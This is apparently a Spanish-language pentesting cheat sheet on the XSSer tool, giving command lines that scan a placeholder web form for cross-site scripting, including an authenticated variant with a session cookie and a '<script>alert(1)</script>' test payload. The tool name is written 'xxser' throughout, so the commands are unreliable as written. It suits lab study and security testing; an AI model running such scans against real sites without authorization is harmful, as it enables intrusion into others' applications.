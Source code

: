# XSSer

Tags: #XSS 

Es una 'framework' automático que detecta, explota y reporta vulnerabilidades XSS en aplicaciones basadas en web.

```bash 
❯ xxser -url "http://IP/hola.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --auto

	# Debemos de colocar la ruta hasta donde se encuentra el XSS
	# p = Colocamos el POST request que nos sale en Burpsuite 
	# XSS es la variable que podemos modificar cuando se presenta el Cross-Site Scripting
	# auto = Intentará mas inyecciones de vulnerabilidades 

❯ xxser -url "http://IP/hola.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --Fp "<script>alert(1)</script>"

	# Fp = Podemos insertar un script con sus etiquetas 
```

### XSSer con autenticación 

```bash 
❯ xxser -url "http://IP/hola.php?firstname=XSS&lastname=Villa&form=submit" --cookie="security_level=0; PHPSESSID=kjafhegajsrhf" 

	# Cookie = La cookie de autenticación (Esta la podemos obtener del Burpsuite en el Proxy)
	# XSS = La variable donde la herramienta hace las pruebas de injección 

❯ xxser -url "http://IP/hola.php?firstname=XSS&lastname=Villa&form=submit" --cookie="security_level=0; PHPSESSID=kjafhegajsrhf" --Fp "<script>alert(1)</script>"
```